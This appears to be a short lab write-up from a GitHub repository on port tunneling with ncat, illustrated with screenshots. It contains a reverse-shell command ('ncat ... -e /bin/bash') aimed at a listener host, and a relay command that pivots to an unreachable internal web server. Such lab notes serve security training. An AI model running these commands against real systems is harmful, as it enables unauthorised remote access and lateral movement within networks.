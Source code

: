 
Port tunneling is also known as port forwarding and port mapping. In simple terms, this technique forwards the packets sent to one destination port to another destination port. For instance, packets sent to port 80 on one system are forwarded to port 8080 on another system.


Port Tunneling Using Ncat:

![Pasted image 20240924211930](https://github.com/user-attachments/assets/b0c7257e-5a3b-4578-89b0-cac9c37b705f)

### Creating a ncat listening on port 21 on the client:

ncat -lvnp 21

![Pasted image 20240924153722](https://github.com/user-attachments/assets/0a86dada-cfa9-4f16-8e46-4fef33e8a5e7)


### Accessing the webserver and passing the Netcat command to spawn a reverse shell:


ncat 10.10.25.138  21 -e /bin/bash

![Pasted image 20240924160925](https://github.com/user-attachments/assets/3ae5affe-ea8f-435c-a0a1-ca5806c718c1)


Listing available services / ports that are opened:

![Pasted image 20240924160848](https://github.com/user-attachments/assets/3dbd9dc5-ac4a-488a-9ccf-f5efdd619848)


The client can't reach the server over the network on port 80 or 8008.


![Pasted image 20240924163354](https://github.com/user-attachments/assets/de869533-6b2f-47bf-a04d-5cd4c9cdd962)

Since I'm connected to the server via a reverse shell, I can open the local webserver running on port 80

ncat -lvnp 8008 -c "ncat 10.10.90.19 80"


![Pasted image 20240924163735](https://github.com/user-attachments/assets/be94001b-b074-49f1-9359-c598cf6e7f4b)


Now I'm able to reach the server on port 8008 , I can se some 200 codes coming from the web App:

![Pasted image 20240924163942](https://github.com/user-attachments/assets/ecb4a1ec-ea2f-47af-aee7-419875cccee0)



![Pasted image 20240924164127](https://github.com/user-attachments/assets/05f29650-4685-4631-aba3-9e379795630d)


Connection state at the Web-Server show the port are bind:


![Pasted image 20240924164556](https://github.com/user-attachments/assets/a34ec769-abaa-4668-b082-276333c3b4bb)

